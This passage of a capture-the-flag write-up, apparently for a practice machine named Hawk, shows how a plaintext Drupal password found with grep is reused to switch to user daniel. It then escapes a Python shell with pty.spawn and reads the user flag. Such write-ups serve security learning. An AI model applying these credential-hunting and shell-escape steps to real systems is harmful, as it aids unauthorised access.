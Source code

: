 After a bit of digging, I found what seems to be **a plaintext password**:

```bash
www-data@hawk:/var/www/html$ grep -Ri password
[...]
sites/default/settings.php:      'password' => 'drupal4hawk',
[...]
```

Having a look at */home/*, we can see that *daniel* is our potential target. Let's see if we can `su` as *daniel* with this password:
```bash
www-data@hawk:/var/www/html$ su daniel
su daniel
Password: drupal4hawk

Python 3.6.5 (default, Apr  1 2018, 05:46:30)
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>>
```
It's working but <span style="color:Red">we're popping inside a python shell!</span> Surprising, even though it shouldn't be too difficult to escape.

### Python Shell Escape

Actually, we can use the same technique we used to upgrade from **/bin/sh** to **/bin/bash**:

```bash
Python 3.6.5 (default, Apr  1 2018, 05:46:30)
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pty
import pty
>>> pty.spawn('/bin/bash')
pty.spawn('/bin/bash')
daniel@hawk:/var/www/html$
```
Nothing prevents us to get the user flag anymore!

```bash
daniel@hawk:/var/www/html$ cat /home/daniel/user.txt
cat /home/daniel/user.txt
[REDACTED]
```

>As we've seen during our recon, an SSH server is running and we can use to directly login as daniel. A nice checkpoint allowed by the author of the box :wink:.


## Elevating privileges

We are now connected as *daniel* via **SSH**. We can start the **enumeration process**.

### Enumeration
